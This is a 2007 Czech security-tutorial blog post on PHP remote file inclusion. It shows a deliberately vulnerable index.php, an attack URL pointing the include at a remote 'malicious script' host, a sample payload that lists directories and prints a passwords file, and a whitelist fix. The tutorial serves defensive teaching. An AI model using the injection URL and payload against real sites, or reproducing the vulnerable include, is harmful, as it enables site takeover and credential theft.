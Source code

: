 ```yaml
---
layout: single
title:  "Hackerem sám sobě (1) - PHP Injection"
date:   2007-07-26 15:24:46
---
```

Tento článek startuje menší seriál o bezpečnosti webových aplikací. Řeknu vám,
jak hackovat své vlastní stránky za účelem důkladného otestování bezpečnosti
vašeho webu. Tím vás ale nenabádám, abyste tyto techniky zkoušeli na stránkách,
které nepatří vám - žádné skrývání pomocí sítě "TOR":http://tor.eff.org/ a
nabourávání webu FBI prosím nedělejte.

Všechny techniky se pokusím prakticky ukázat - to znamená, že uvidíte ukázky kódu
a odkazy přímo na PHP skripty, kde lze tuto chybu pozorovat. V žádném případě
nebudu zacházet až příliš do hloubky - další rozšiřování kódu je na vaší fantazii.

PHP Injection
=============

Začnu tím nejjednodušším, kde dělají chyby většinou jen začátečníci. Spočívá
v injection = injekci, tedy vložení cizího skriptu do stránky. Bezpečnostní
riziko mohou způsobit funkce, které provádějí kód z externích souborů - nejčastěji
`include` nebo `require`.

[POKRACOVANI]

Nejvíce je s touto technikou spojován skript index.php, který obsahuje hlavičku
a patičku, přičemž samotný obsah je tvořen externím souborem vkládaným přes
`include`:

/---code html
<html>
  <head>
    <meta http-equiv="content-type" content="text/html; charset=utf-8">
    <title>Ukázka PHP Injection</title>
  </head>
  <body>
    <!-- hlavicka a menu -->
    <?php include $_GET[ "stranka" ] ?>     
    <!-- paticka -->
  </body>
</html>
\\---

Tímto tvůrce stránek udělal jednoduchý skript díky kterému nemusí psát do
každého html souboru menu a další věci opakující se na každé stránce. Adresa
stránky s kontaktem bude mít následující tvar:

/---code txt
index.php?stranka=kontakt.php
\\---

Je to sice krásně jednoduché, ale takový skript má obrovskou bezpečnostní díru !
Pokud nemáme na serveru zakázáno `allow_url_include`, můžeme směle `kontakt.php`
nahradit vzdáleným skriptem:

/---code txt
index.php?stranka=http://domena.cz/zakernyskript.php
\\---

Tento vložený cizí skript pak bude mít stejné práva a možnosti jako váš vlastní
skript ! Může třeba prohlížet obsah adresáře nebo zobrazit obsah jakéhokoliv
vašeho skriptu:

/---code html
<p><strong>Klidně si vypíšu obsah adresáře:</strong></p>
<p>
  <?php
  $adresar = dir( "./" );
  while ( $polozka = $adresar->read( ) ) {
        echo $polozka."<br />\\n";
  }
  $adresar->close( );
  ?>
</p>
<p><strong>A pak obsah souboru s hesly:</strong></p>
<pre>
  <?php
  echo htmlspecialchars( file_get_contents( "passwords.php" ) );
  ?>
</pre>
\\---

**Ukázka:** "php-injection.php?stranka=http://www.jopress.cz/test/php-injection-hack.php":http://ukazky.chapadlo.cz/php-injection.php?stranka=http://www.jopress.cz/test/php-injection-hack.php

A je vymalováno - tato bezpečnostní díra přinesla útočníkovi celý web na stříbrném
podnose.

Řešení
======

Nejlepší metodou pro tento typ skriptu je nadefinování všech stránek pomocí
podmínek. Nebudeme tím spoléhat na vstup, což udělá náš skript bezpečným.

/---code html
<html>
  <head>
    <meta http-equiv="content-type" content="text/html; charset=utf-8">
    <title>Bezpečný skript</title>
  </head>
  <body>
    <!-- hlavicka a menu -->
    <?php
    switch ( $_GET[ "stranka" ] ) {
          case "novinky":
        include "novinky.php";
        break;
      case "kontakt":
        include "kontakt.php";
        break;
      // a tak dale...
      default:
        include "404.php"; // stranka nenalezena	
        break;
    }
    ?>
    <!-- paticka -->
  </body>
</html>
\\---

Adresa pro zobrazení kontaktu bude nyní `index.php?stranka=kontakt`.

Doufám, že jste si uvědomili nedozírné následky prezentované chyby a dáte si
na PHP Injection pozor. Pokud používáte externí soubory, ujistěte se, že
opravdu nejdou podstřčit něčím jiným. Dávejte si pozor i na přípony, existují
situace, kdy i obrázek může být maskovaný skript :-)'),
